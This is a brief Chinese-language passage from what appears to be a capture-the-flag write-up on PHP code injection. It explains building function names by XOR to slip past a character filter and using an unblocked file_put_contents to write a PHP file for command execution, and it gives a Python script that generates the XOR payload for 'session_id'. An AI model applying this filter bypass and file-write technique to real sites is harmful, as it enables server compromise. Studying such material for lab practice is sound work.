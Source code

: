 ![](./images/1699858793-image.png)

注意这个data也是要进行异或构成的，这里给一个python脚本

由于在disable\_function里没有禁用file\_put\_contents，于是可以写入一个PHP文件来方便命令执行，同时注意函数的括号嵌套

```
import string
dic='aelvAELV!#$%&'+"()*+,-./:;<=>?@[]^_`|"
want="session_id"
res=""
for c in want:
    for i in dic:
        check=0
        for j in dic:
            if ord(i)^ord(j)==ord(c):
                print(i,j)
                res+=f"('{i}'^'{j}')."
                check=1
                break
        if check==1:
            break
print(res)
```

![](./images/1699858854-image.png)
